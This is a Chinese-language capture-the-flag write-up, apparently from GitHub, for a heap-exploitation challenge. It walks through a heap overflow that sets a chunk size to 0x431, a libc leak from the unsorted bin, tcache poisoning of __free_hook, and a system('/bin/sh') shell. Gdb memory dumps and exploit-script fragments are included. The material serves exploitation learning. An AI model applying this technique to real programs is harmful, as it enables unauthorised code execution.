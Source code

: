 ## 利用方式
1. 通过堆溢出覆盖chunksize，制造largebin，释放掉后进入unstoredbin。
2. 申请出来一个chunk，unsorted bin chunk的地址将被放到2th chunk，所以可以通过List功能在2th chunk处泄露libc地址。
3. 通过delete将chunk释放到tcache，用edit将free_hook释放到tcache。
4. 通过申请将freehook申请出来，将freehook改为system，将`/bin/sh`写入chunk。
5. 通过free特定的chunk触发system('/bin/sh'),getshell。

## 利用过程
1. heap overflow
需要add 16个item创造一个big chunk，通过第0个chunk 溢出覆盖第2个chunkd的size为0x431
```
0x604260:	0x0000000000000000	0x0000000000000021
0x604270:	0x0000000000000001	0x0000000000604290
0x604280:	0x0000000000000000	0x0000000000000031
0x604290:	0x6161616161616161	0x6161616161616161
0x6042a0:	0x6161616161616161	0x6161616161616161
0x6042b0:	0x6161616161616161	0x0000000000000431   Change to 0x21 => 0x431
0x6042c0:	0x0000000000000000	0x00000000006042e0
0x6042d0:	0x0000000000000000	0x0000000000000031
0x6042e0:	0x4242424242424242	0x0000000000000000
0x6042f0:	0x0000000000000000	0x0000000000000000
0x604300:	0x0000000000000000	0x0000000000000021
```
随后将第1个chunk删除，那么0x431大小的chunk会被放到unsorted bin中，但此时不能泄露，因为第一个chunk已被删除，地址被移到了item的最后面，访问不到该原来1th chunk地址，
```
0x604260:	0x0000000000000000	0x0000000000000021
0x604270:	0x0000000000000001	0x0000000000604290
0x604280:	0x0000000000000000	0x0000000000000031
0x604290:	0x6161616161616161	0x6161616161616161
0x6042a0:	0x6161616161616161	0x6161616161616161
0x6042b0:	0x6161616161616161	0x0000000000000431
0x6042c0:	0x00007ffff7dcdca0	0x00007ffff7dcdca0  The 1st chunk goes into an unsorted bin
0x6042d0:	0x0000000000000000	0x0000000000000000
0x6042e0:	0x4242424242424242	0x0000000000000000
0x6042f0:	0x0000000000000000	0x0000000000000000
0x604300:	0x0000000000000000	0x0000000000000021
```

我们要通过add重新将1th chunk地址从unsorted bin中申请出来，unsorted bin的地址就会放到2th chunk的地方，此时就可以通过List功能泄露出libc。

```
    'Name: `G`\n'
    'Price: 140737351834784\n'      =>  0x00007ffff7dcdca0
```
有了libc地址，我们就可以用add、edit、delete功能将__free_hook地址放入tcache
```
# tcache poisoning
Add("c", 3) 
Delete(5) <---delete one of unsorted bin items--->
Delete(1)
Edit(14, "d", free_hook)
```
这里Add("c", 3) 的做用是构造1st chunk的双指针指向（UAF）,如下可以看到1st和14st都指向0x00000000013ff350
```bash
0x6020a0 <items>:       0x00000000013ff2b0      0x00000000013ff350 <---1st
0x6020b0 <items+16>:    0x00000000013ff3a0      0x00000000013ff3f0
0x6020c0 <items+32>:    0x00000000013ff440      0x00000000013ff4e0
0x6020d0 <items+48>:    0x00000000013ff530      0x00000000013ff580
0x6020e0 <items+64>:    0x00000000013ff5d0      0x00000000013ff620
0x6020f0 <items+80>:    0x00000000013ff670      0x00000000013ff6c0
0x602100 <items+96>:    0x00000000013ff710      0x00000000013ff760
0x602110 <items+112>:   0x00000000013ff300      0x00000000013ff350 <---14st
0x602120 <items+128>:   0x0000000000000000      0x00000000013ff490
```